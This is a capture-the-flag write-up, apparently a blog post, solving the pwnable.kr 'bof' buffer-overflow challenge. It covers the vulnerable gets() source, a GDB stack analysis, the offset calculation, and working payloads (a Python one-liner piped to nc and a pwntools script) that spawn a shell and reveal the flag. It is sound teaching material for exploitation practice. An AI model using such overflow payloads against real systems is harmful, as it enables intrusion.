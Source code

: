 ```yaml
---
title: Pwnable CTF - bof
tags:
  - pwnable
  - ctf
date: 2024-01-04
---
```


In this challenge, there's no shell. Instead we download some files and use
[netcat] to connect to a remote host running what is presumably the `bof`
binary. We will likely have to employ a [buffer overflow] to capture the flag.

```
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

Let's take a look at `bof`:
```sh
$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

Running `bof` locally, we get a prompt and a hint: "overflow me". Entering a random string
results in "Nah...".
```sh
$ nc pwnable.kr 9000
overflow me :
hello
Nah..
```

Let's take a look at the source code provided:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

This program passes `0xdeadbeef` to `func()` as `key`. A buffer is created with
a length of 32. `[gets]` is used to read a string from *stdin* into
`overflowme`. Finally, `key` is compared to `0xcafebabe` and if they are equal,
we are given a shell.

From the man page for `gets()`:

    **gets()** reads a line from *stdin* into the buffer pointed to by *s* until either a terminating newline or **EOF**,
    which it replaces with a null byte ('\0'). No check for buffer overrun is performed (see BUGS below)."

So now we know that `gets` will happily read more bytes than the buffer will
hold. We need to somehow overwrite `key` with the value `0xcafebabe`.

Let's open the binary in [GDB]:
```sh
gdb ./bof
```

If we disassembly `func`, we can see the compare against `0xcafebabe` at `+40`.
```
(gdb) disas func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   %ebp
   0x5655562d <+1>:     mov    %esp,%ebp
   0x5655562f <+3>:     sub    $0x48,%esp
   0x56555632 <+6>:     mov    %gs:0x14,%eax
   0x56555638 <+12>:    mov    %eax,-0xc(%ebp)
   0x5655563b <+15>:    xor    %eax,%eax
   0x5655563d <+17>:    movl   $0x5655578c,(%esp)
   0x56555644 <+24>:    call   0xf7df6880 <puts>
   0x56555649 <+29>:    lea    -0x2c(%ebp),%eax
   0x5655564c <+32>:    mov    %eax,(%esp)
   0x5655564f <+35>:    call   0xf7df5ee0 <gets>
   0x56555654 <+40>:    cmpl   $0xcafebabe,0x8(%ebp)
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    movl   $0x5655579b,(%esp)
   0x56555664 <+56>:    call   0xf7dcbcd0 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    movl   $0x565557a3,(%esp)
   0x56555672 <+70>:    call   0xf7df6880 <puts>
   0x56555677 <+75>:    mov    -0xc(%ebp),%eax
   0x5655567a <+78>:    xor    %gs:0x14,%eax
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7eb4e40 <__stack_chk_fail>
   0x56555688 <+92>:    leave
   0x56555689 <+93>:    ret
```

Let's set a breakpoint there:
```
(gdb) break *func+40
Breakpoint 1 at 0x56555654
```

Let run it. We know the buffer expects 32 bytes, so lets give it some sentinel
values to find them on the stack.
```
(gdb) run
overflow me :
aaaabbbbccccddddeeeeffffgggghhhh

Breakpoint 1, 0x56555654 in func ()
```

We hit out breakpoints. Let examine the stack:
```
(gdb) x/24x $esp
0xffffd290:     0xffffd2ac      0x00000020      0x00000000      0xffffd454
0xffffd2a0:     0x00000000      0x00000000      0x01000000      0x61616161
0xffffd2b0:     0x62626262      0x63636363      0x64646464      0x65656565
0xffffd2c0:     0x66666666      0x67676767      0x68686868      0x62f5e700
0xffffd2d0:     0xffffd310      0xf7fbe66c      0xffffd2f8      0x5655569f
0xffffd2e0:     0xdeadbeef      0x00000000      0xf7faa000      0xf7ea283b
```

We can see our input (`0x61..0x68`) starting at `0xffffd2ac` and ending at
`0xffffd2c8`. So we need to overflow the buffer until it overwrites `0xdeadbeef`
at `0xffffd2e0`. That's 52 bytes past the start of our input, or 13 double words
(chunks of 4 bytes). So we need 52 bytes of filler and the value we want to
overwrite, `0xcafebabe`.

To generate the bytes we need, we can use Python. Note that we need reverse the
order of the bytes in `0xcafebabe` to `0xbebafeca` because x86 is [little
endian]. We need to use `sys.stdout.buffer.write` instead of `print` because we
need the raw bytes output and not have it interpreted as UTF-8.

```sh
$ python -c "import sys; sys.stdout.buffer.write(b'\xbe\xba\xfe\xca'*14)" | hexdump -v
0000000 babe cafe babe cafe babe cafe babe cafe
0000010 babe cafe babe cafe babe cafe babe cafe
0000020 babe cafe babe cafe babe cafe babe cafe
0000030 babe cafe babe cafe
```

Let's try our payload against our target. We need to wrap Python program in sub
shell with `cat` in order to keep stdin open. Nothing will be printed at first,
but if hit return once, we'll be in the shell and can execute `ls` to see what
we have access to and finally `cat flag` to get out flag value.
```sh
$ (python -c "import sys; sys.stdout.buffer.write(b'\xbe\xba\xfe\xca'*14)"; cat) | nc pwnable.kr 9000

ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

In the future, we can use [pwntools] to make our attack easier to write an execute:
```py
from pwn import *

payload = p32(0xcafebabe)*14
conn = remote("pwnable.kr", 9000)
conn.sendline(payload)
conn.interactive()
```

```sh
$ python bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[netcat]: https://en.wikipedia.org/wiki/Netcat
[`gets`]: https://linux.die.net/man/3/gets
[GDB]: https://en.wikipedia.org/wiki/GNU_Debugger
[little endian]: https://en.wikipedia.org/wiki/Endianness
[pwntools]: https://docs.pwntools.com/en/latest/
